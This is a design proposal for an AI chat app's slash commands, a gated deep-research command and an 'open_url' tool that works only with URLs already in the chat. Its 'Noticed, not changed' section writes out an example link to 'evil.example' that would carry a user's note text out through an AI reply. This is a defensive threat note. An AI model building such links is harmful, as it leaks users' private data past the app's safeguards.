


# Proposal: chat commands, deep research and web links

## What

Three chat features that share one idea: the user starts a known piece of AI work with one tap or a
few keys, and the app keeps every outside effect visible and gated.

1. **Commands and command chips** ([#64](https://github.com/tillg/karpathy.app/issues/64), feature
   report §1).
   - Typing `/` in the chat composer opens a **command palette**. It lists the vault's skills (`query`,
     `lint`, `ingest`, …) with their descriptions, filtered as the user types.
   - Picking one fills in `/name ` and leaves the cursor for the arguments. Sending runs the skill.
   - An empty chat shows up to four **command chips**. One tap starts a turn.
   - The list is per vault, because skills differ per vault.
2. **Deep research** ([#86](https://github.com/tillg/karpathy.app/issues/86), feature report §23).
   - `/research <topic>` is a command that ships with the app, so every vault has it.
   - It runs in two turns. First the AI proposes sub-questions and stops. The user replies "go" or
     sends an edited list. Only then does the AI search the web.
   - Useful pages are saved to `Sources/` with their URL. The AI then writes or updates wiki pages
     that cite those sources.
3. **Open a web page for the user** ([#119](https://github.com/tillg/karpathy.app/issues/119)).
   - A new AI tool, `open_url`, offers a web page to the user ("open the Wikipedia page on X").
   - The chat shows an **Open** chip. The page opens in a new browser tab when the user taps it.
   - The AI may offer only a URL that already appears in the chat, the same rule as web fetch.

## Why

- **Typing prompts on a phone is the slowest step today.** "Please ingest Sources/foo.md following the
  ingest skill" is a paragraph on a phone keyboard. A palette makes every skill one tap or a few
  letters away. Skills the user didn't know the vault had become visible.
- **Research fills wiki gaps with durable pages.** A chat answer disappears in the history. Research
  saves its sources and writes cited pages that Obsidian and later queries reuse. It is a good "start it
  on the train, review it at home" task. The diff review before commit stays the safety net.
- **Pointing the user to a page is a different act from reading it.** Today the AI can only open
  notes. To show the user a page, it has to fetch it (with Web access on, through the server) or write a
  link into its reply. `open_url` says "open this for me" without downloading anything.

## Scope

### Decisions visible to the user

- **Commands are skills.** The palette shows the vault's skills (`.claude/skills/<name>/SKILL.md`, or
  `.agents/skills/…`) and the skills that ship with the app (`research`). The issue's "user prompts as
  `.md` command files in the vault" can't work: opencode reads command files only from `.opencode/`, and
  a vault with `.opencode/` gets no chat (security.md). A user prompt becomes a small skill instead, and it
  syncs through git like any note.
- **opencode's own built-ins are hidden.** `init` (writes an `AGENTS.md` for code repos), `review`
  (needs git and subagents, both unavailable) and `customize-opencode` (edits harness config, which is
  denied) never show.
- **No argument hints.** Skills have no argument placeholders. The palette shows the skill's
  description, which can say what to type after the name.
- **A chip sends at once.** Tapping a chip sends `/name` with no arguments. A skill that needs an
  argument asks for it in its reply. To add arguments, the user picks the command from the palette.
- **Chip order:** the commands this browser used last in this vault come first, then the rest A–Z, at
  most four.
- **A typed command works too.** `/query what is X` typed by hand runs the `query` skill. A `/word` that
  is no command of this vault (`/etc/hosts is…`) is sent as plain text.
- **The bubble shows what the user typed** (`/query what is X`). The skill text goes to the AI as a
  hidden part of the same message.
- **A new skill shows after the next pull.** A skill added on the Mac appears in the palette after the
  vault pulled it. Today opencode keeps the first list it loaded until it restarts.
- **Research asks before it spends.** The first `/research` turn runs **without web tools**, even with
  Web access on. It reads the wiki, proposes 3–6 sub-questions and stops. There is no approval dialog
  (the app never blocks a turn on a prompt). The user's next message is the confirmation.
- **Research stays inside the web caps.** One research run is one turn: at most 20 web searches and 20
  web fetches. The skill aims at 8 sources at most. If questions remain, the AI reports what is left and
  asks; the user's "continue" starts a new turn with fresh caps. Every 20 / 20 block needs a user reply.
- **Research needs Web access on.** With it off, the run turn tells the user to turn it on in Settings.
- **Sources go to `Sources/`.** One file per useful page, with `url`, `title` and `fetched` in the
  frontmatter and a summary with short quotes, not the full page (copyright, repo size). A URL that is
  already in `Sources/` is not saved twice. Wiki pages cite their sources. If the vault's own
  instructions (`AGENTS.md`, `CLAUDE.md`, an ingest skill) describe sources and pages differently, they
  win.
- **Research in conflict** can plan and answer, but can't save files (the AI is read-only then).
- **An Open chip never opens by itself.** Browsers block `window.open` without a tap, and the tap is also
  the user's check of the host shown on the chip. Like `open_note`, the AI offers a page only when the
  user asks to see one.
- **`open_url` works with Web access off.** The user's own browser loads the page, not the server.

### What `open_url` adds over the fetched chip

| | Fetched chip (`webfetch`) | Open chip (`open_url`) |
|---|---|---|
| What happens | The server downloads the page into the chat (up to 5 MB) | Nothing is downloaded; the user's browser opens the page on tap |
| Needs Web access | yes | no |
| Counts against the fetch cap | yes | no |
| Pages behind a login, videos, apps | fail or come back empty | open with the user's own browser session |
| Meaning | a trace of what the AI read | the AI's answer to "open this for me" |
| URL rule | known URL | known URL |

## Impact

- **No new service, no new secret, no new outbound path.** Research uses the existing `websearch` and
  `webfetch` with their guards.
- **Security:** commands go through the normal prompt path, never opencode's command endpoint, which runs
  shell snippets from skill files (see architecture). `open_url` gets the known-URL check.
- **Dependencies:** none new.

## Expected outcome

- `/` in the composer lists the vault's skills with descriptions. Picking and sending one runs it.
- An empty chat shows chips that start a turn with one tap.
- `/research <topic>` proposes sub-questions without touching the web. After the user's reply it saves
  sources to `Sources/` with their URLs and writes wiki pages that cite them.
- "Open the page about X" gives an Open chip that opens the page in a new tab. A URL the AI built itself
  fails with "URL not in this chat".

## Noticed, not changed

- **Links in AI replies are not checked.** The AI can write `[text](https://evil.example/?d=<note text>)`
  into its reply. It renders as a normal link, and a tap sends the data. This channel exists today, and
  `open_url` doesn't widen it. A follow-up could render reply links whose URL isn't known as plain text,
  or with a warning.
- **The roadmap** ([v1 plan](../v1/v1-plan.md), V1.1) pairs #64 with the bash allowlist and Python skills
  (M5). This change does only the command part. It works for every skill that runs today, and a later M5
  change adds more skills to the same palette.
- **[`attachments`](../attachments/proposal.md)** changes the same composer (a **+** button) and the same prompt
  path (file parts). Whichever is applied second rebases onto the first; both keep a single `promptAsync` call
  with one `tools` map.
